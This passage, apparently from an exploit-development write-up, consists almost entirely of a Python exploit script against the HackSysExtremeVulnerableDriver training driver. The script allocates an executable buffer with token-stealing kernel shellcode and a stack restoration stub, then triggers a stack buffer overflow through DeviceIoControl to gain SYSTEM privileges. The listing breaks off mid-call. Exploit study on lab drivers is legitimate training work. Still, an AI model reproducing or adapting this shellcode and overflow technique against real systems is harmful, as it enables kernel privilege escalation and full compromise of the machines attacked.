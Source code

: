 Our final exploit code is here:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58"                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

addr = struct.pack("<Q", addr)

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
```